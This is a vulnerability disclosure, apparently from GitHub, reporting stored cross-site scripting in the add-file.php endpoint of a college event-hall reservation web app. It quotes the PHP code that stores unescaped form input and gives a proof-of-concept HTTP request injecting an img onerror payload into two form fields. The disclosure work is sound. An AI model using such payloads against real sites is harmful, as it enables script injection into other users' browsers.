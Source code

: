 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Stored XSS add-file.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /endpoint/add-file.php

## Code
```php
        $fileTitle = $_POST["fileTitle"];
        $fileUploader = isset($_POST["fileUploader"]) ? $_POST["fileUploader"] : "";


 $sql = "INSERT INTO tbl_file (file_title, file, file_uploader, date_uploaded) VALUES (:fileTitle, :uploadedFileName, :fileUploader, :dateUploaded)";
                $stmt = $conn->prepare($sql);
                $stmt->bindParam(':fileTitle', $fileTitle);
                $stmt->bindParam(':uploadedFileName', $uploadedFileName);
                $stmt->bindParam(':fileUploader', $fileUploader);
                $stmt->bindParam(':dateUploaded', $dateUploaded);
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/add-file.php HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Length: 461


------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="fileTitle"

<img src=x onerror=alert('NoChizPlz')>
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="file"; filename="csv.csv"
Content-Type: text/txt

NochizPlz
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="fileUploader"

<img src=x onerror=alert('NoChizPlz')>
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q--

```

## Screenshot
![img.png](STORED%20XSS%20add-file%2Fimg.png)

